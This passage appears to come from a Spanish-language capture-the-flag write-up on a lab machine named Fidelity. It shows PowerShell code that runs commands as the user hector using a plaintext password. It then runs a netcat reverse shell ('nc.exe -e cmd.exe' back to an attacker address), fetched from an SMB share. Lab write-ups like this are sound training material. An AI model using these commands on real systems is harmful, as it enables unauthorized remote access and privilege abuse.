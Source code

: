 Habiendo encontrado [esta](https://lazyadmin.nl/powershell/start-process/) y [esta](https://davidhamann.de/2019/12/08/running-command-different-user-powershell/) referencias, se enviaron las siguientes instrucciones para lograr ejecutar comandos como el usuario `hector`.

Previamente identificando el nombre de la máquina y/o hostname con `hostname`, `$env:COMPUTERNAME` o `[Environment]::MachineName`, según lo indica [este blog](https://adamtheautomator.com/powershell-get-computer-name/) para encontrar ese valor y usarlo posteriormente.

![Nombre de máquina](images/post_2.png)

```powershell
$userName = 'fidelity\hector'
$userPassword = 'l33th4x0rhector'
$secStringPassword = ConvertTo-SecureString $userPassword -AsPlainText -Force
$credObject = New-Object System.Management.Automation.PSCredential ($userName, $secStringPassword)
Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock { whoami }
```

Logrando así ejecución como el usuario `hector`.

![Ejecución de comandos como hector](images/post_3.png)

Dadas las limitaciones que se obtuvieron al ejecutar el mismo binario de `netcat` previamente subido debido a permisos, se decidió ejecutar el mismo binario con la diferencia de ejecutarlo a través de red, exponiendo el binario mediante `impacket-smbserver smbFolder $(pwd) -smb2support` y ejecutándolo con `Invoke-Command -ComputerName Fidelity -Credential $credObject -ScriptBlock { \\10.10.14.16\smbFolder\nc.exe -e cmd.exe 10.10.14.16 4321 }`. Obteniendo así una segunda revershell pero en esta ocasión como el usuario `hector`.

![Reverse shell como hector](images/post_4.png)
